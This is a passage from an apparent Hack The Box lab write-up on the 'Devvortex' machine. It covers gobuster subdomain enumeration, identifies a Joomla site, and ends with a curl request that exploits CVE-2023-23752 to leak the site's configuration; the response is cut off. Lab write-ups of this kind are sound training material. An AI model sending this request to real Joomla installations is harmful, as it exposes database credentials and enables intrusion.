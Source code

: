```
2023/12/08 17:32:51 Finished
===============================================================
```
Nothing interesing found.  DNS subdomain enumeration revealed dev.devvortex.htb:
```
gobuster dns -d devvortex.htb -w $wordlists/dns/subdomains-top1million-20000.txt -t 20
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     devvortex.htb
[+] Threads:    20
[+] Timeout:    1s
[+] Wordlist:   /Users/mekaneo/Hacking/wordlists/dns/subdomains-top1million-20000.txt
===============================================================
2023/12/08 17:37:57 Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.devvortex.htb

Progress: 1013 / 19967 (5.07%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/12/08 17:38:02 Finished
===============================================================
```
#### Found: dev.devvortex.htb
I've added it to my **/etc/hosts** and proceeded to explore this website. Hitting /robots.txt revealed it's content and it became clear: this is a Joomla CMS.
![](../../../assets/htb/devvortex/dev.devvortex.robots.page.png)
![](../../../assets/htb/devvortex/dev.devvortex.admin.page.png)

Attempts with common credentials on the Joomla login page were unsuccessful.

#### CVE-2023-23752 to code execution
From [VulnCheck](https://vulncheck.com/blog/joomla-for-rce):
```
On February 16, 2023, Joomla! published a security advisory for CVE-2023-23752. The advisory describes an “improper access check” affecting Joomla! 4.0.0 through 4.2.7. The following day, a chinese-language blog shared the technical details of the vulnerability. The blog describes an authentication bypass that allows an attacker to leak privileged information.
```

Leveraging CVE-2023-23752 in Joomla:
#### Request
`curl "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq .`

#### Response
```json
{
  ...
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "dbtype": "mysqli",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
```